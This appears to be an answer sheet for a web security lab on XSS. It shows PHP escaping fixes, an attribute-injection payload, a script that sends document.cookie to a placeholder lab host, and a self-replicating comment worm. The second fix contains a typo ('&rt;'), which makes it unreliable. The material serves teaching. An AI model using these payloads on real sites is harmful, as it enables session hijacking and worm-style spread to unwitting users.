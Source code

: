 Answer Sheet
============

Fix the search
--------------

.. code:: php

  function prepareSearchTerms($terms) {
    $terms = ucwords($terms);  // Capitalise each word.
    $terms = htmlspecialchars($terms);  // Escape special HTML characters.
    return $terms;
  }

Alternatively, this would also work in most cases:

.. code:: php

  function prepareSearchTerms($terms) {
    $terms = ucwords($terms);  // Capitalise each word.
    $terms = str_replace("<", "&lt;", $terms); 
    $terms = str_replace(">", "&rt;", $terms);
    return $terms;
  }
  
Note that the second solution given above does not protect in cases where 
the output is used as part of an attribute, e.g.:

.. code:: html

  <h2 title="Results for <?= $search_term; ?>">
    ...
  </h2>
  
Could be exploited to output the following HTML:

.. code:: php

  $search_term = '" onfocus="alert(\'Javascript Execution\');';


.. code:: html

  <h2 title="Results for " onfocus="alert('Javascript Execution');">
    ...
  </h2>

  

Using Javascript to steal the session ID
----------------------------------------

.. code:: javascript

  <script>
    jQuery.post(
      "http://<VM IP>:12344/?page=capture",
      {
        "cookies": document.cookie
      }
    )
  </script>


* ``document.cookie`` is the string containing the users' cookies.
  You can learn more about this string and its format
  at https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.


Extension Challenge
----------------------------------------

.. code:: javascript

  This comment will be shared automatically by every user
  who views the page...!

  <script class="evil-script">
    jQuery.post(
      "http://<VM IP>:12342/?page=comment.php",
      {
        "article_id": 1,
        "body": jQuery(".evil-script").first().parent().html()
      }
    )
  </script>


* ``jQuery`` (or ``$``) can be used as a function to search the document,
  and it returns a list of elements found using the selector string.
  The dot at the beginning of
  the string (``.evil-script``) is used to search for elements by class name.
  You can learn more about this function at http://api.jquery.com/jquery/.

* ``.first()`` is used to get only the first occurrence of the script,
  in case the page contains other scripts (or many copies of the script).

* ``.parent()`` is used to get the container of the comment, which
  includes both the script and the rest of the text of the comment.

* ``.html()`` is used to get the source code of the tag, including
  its Javascript content.

* ``This comment will be shared automatically...`` is the text of the payload
  message that will be visible to users and will be reshared automatically.

